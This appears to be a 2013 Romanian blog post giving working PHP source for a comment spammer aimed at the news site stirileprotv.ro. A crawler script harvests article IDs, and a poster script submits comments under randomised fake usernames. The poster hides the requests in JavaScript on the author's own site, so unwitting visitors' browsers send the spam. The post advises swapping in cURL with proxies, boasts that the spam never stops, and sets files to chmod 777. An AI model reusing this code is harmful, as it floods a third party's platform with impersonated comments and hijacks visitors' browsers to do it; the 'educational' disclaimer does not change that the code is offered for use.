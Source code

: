 ```yaml
---
id: 97
title: 'StrileProTV.ro – comment spammer [PHP]'
date: 2013-02-05T22:31:24+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=97
permalink: /strileprotv-ro-comment-spammer-php/
dpsp_networks_shares:
  - 'a:0:{}'
categories:
  - Programming
tags:
  - comment
  - php
  - script
  - spammer
  - stirileprotv.ro
---
```

Am scris in PHP (cu picioarele) un mic script care preia articolele de pe un numar prestabilit (de utilizator) de pagini de pe site-ul de stiri mentionat si posteaza comentarii la ce vreti voi (le setati din script, bineinteles).
  
Scriptul ar trebui inclus in index sau pe o pagina cu multe vizite ale unui site de-al vostru, pentru ca am ales sa folosesc JavaScript pentru a “posta” comentariile, dar puteti modifica si in loc de javascript sa folositi cURL si proxy-uri.
  
Crawler.php

<pre class="brush: php; title: ; notranslate" title=""><?php 
 // Original PHP code by Chirp Internet: www.chirp.com.au 
  // Please acknowledge use of this code by including this header. 
  for($i=1;$i<=500;$i++) //$i-ul merge pana la cate pagini doriti sa faceti crawling.
  { 
  $url = "http://m.stirileprotv.ro/lbin/mobile/index.php?section_id=1&page=$i"; 
  $input = get_data($url) or die("Could not access file: $url"); 
  $regexp = "<a\s[^>]*href=(\"??)([^\" >]*?)\\1[^>]*>(.*)<\/a>"; 
  if(preg_match_all("/$regexp/siU", $input, $matches)) { 
      $link = $matches[2]; 
      for($i=1;$i<=28;$i++)  
      if (strlen(strstr($link[$i],'article_id='))>0) {  
$ok = str_replace('index.php?article_id=','',$link[$i]);  
$file = 'articole.txt'; 
$current = file_get_contents($file); 
$current .= "$ok\n"; 
file_put_contents($file, $current); 
} 
} 
} 
function get_data($url) 
{ 
$ch = curl_init(); 
$timeout = 5; 
curl_setopt($ch,CURLOPT_URL,$url); 
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1); 
curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,$timeout); 
$data = curl_exec($ch); 
curl_close($ch); 
return $data; 
} 
?>
</pre>

Poster.php

<pre class="brush: php; title: ; notranslate" title=""><?php 
ERROR_REPORTING(0); 

if ( ($fh = fopen('articole.txt', 'r')) !== false) 
{ 
   $nrart = implode(" ", (fgetcsv($fh, 1000, " ")) ); 
} 
fclose($fh); 
$num = array('mihai','gabi','andrei','ana','alex','daiana','alberto','iulian','gabi','stefan','monica','george'); 
$rand=rand(0,11); 
$random=rand(10,301); 
$numek=$num[$rand]; 
$mesaj=array('test1','comm2','comentariu 3','comentariu 4'); 
$rndmsg=rand(0,3); 
$postare=$mesaj[$rndmsg]; 
$postare=str_replace(' ','%20',$postare); 
$linke = "http://stirileprotv.ro/lbin/ajax/comment_save.php?username=$numek$random&article_id=$nrart&txt=$postare"; 
$f = 'articole.txt'; 
function read_and_delete_first_line($filename) { 
  $file = file($filename); 
  $output = $file[0]; 
  unset($file[0]); 
  file_put_contents($filename, $file); 
  return $output; 
} 
read_and_delete_first_line($f); 
$lines = file($f);  
$count = count($lines); 
if ($count<10) 
{ 
echo '<script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.min.js"> 
</script> 
<script> 
$(document).ready(function(){ 
  $(window).load(function(){ 
    $.get("http://adresa_site/crawler.php");});}); 
</script>'; 
}else{ 
echo '<script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.min.js"> 
</script> 
<script> 
$(document).ready(function(){ 
  $(window).load(function(){ 
    $.get("<?php echo $linke; ?>");});}); 
</script>'; 
} 
?>
</pre>

Spam-ul nu se va opri niciodata, deoarece am setat ca atunci cand sunt mai putin de 10 articole de spamat, sa se faca un request catre scriptul care face crawling.
  
Trebuie sa mai creati un fisier, articole.txt, iar la toate 3 fisierele sa setati chmod 777.

Acesta este doar un articol educational, nu sunt raspunzator pentru ce faceti voi cu acest script.
  
Enjoy! 😀
